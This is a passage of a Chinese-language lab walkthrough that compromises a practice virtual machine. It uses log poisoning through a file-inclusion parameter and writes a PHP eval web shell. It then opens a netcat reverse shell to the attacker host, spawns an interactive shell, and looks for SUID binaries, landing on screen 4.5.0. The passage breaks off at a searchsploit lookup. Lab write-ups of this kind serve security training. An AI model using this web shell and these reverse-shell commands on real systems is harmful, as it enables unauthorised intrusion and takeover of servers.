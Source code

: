 访问

> http://192.168.1.119/thankyou.php?file=/var/log/nginx/access.log

tip：要是发现没弹出 phpinfo 的信息，建议重装靶机，不要觉得是操作上的问题，真的是靶机问题，（这个地方卡我很久）

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJJHbJR5VGOb8OfRoHRpUUrWwib9RusQq53rAzUOSlg6GECc7GR6UODWg/640?wx_fmt=png)

看到信息弹出，开始写入木马

> <?php @eval($_POST[777]) ; ?>

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJgtDGdf9Tg6DWg829mdxsj2GRhrYnDmAfL3uZxCicbDEdLyhNqfuWOiaQ/640?wx_fmt=png)

然后使用蚁剑进行连接

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJPOYMLChiaiaG7Nz5cQ1JVuPx9ch8jSTECe9GzDhapfPyKDuSAHJYKQpw/640?wx_fmt=png)

链接成功

接下来反弹 shell

kali 执行

```
nc -lvvp 888
```

靶机执行

```
nc -e /bin/sh 192.168.1.116 888
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJOibFcq5GGTCYRuyLDpeJaCTqJ2OMJQU3Bvic9xKDWDFgM7I1J45MMeBg/640?wx_fmt=png)

执行

```
#获取完全交互的shell
python -c  'import pty;pty.spawn ( "/bin/bash")'
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJbDH9wreFmu3tee7oiclkUV74oAcpntjUBEZArkeUax83T7tLv4MhmKg/640?wx_fmt=png)

**06 提权**
---------

```
#通过find提权，查看用root权限运行的命令
find / -perm -4000 2>/dev/null
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJ8XlCjH2zAHg1uYTwoKGHfUOqT0tHTvbkzyxKwQiaUVgrYSlCaSOpLuQ/640?wx_fmt=png)

可以看到 / bin/screen-4.5.0

在 kali 中执行

```
searchsploit screen 4.5.0
```
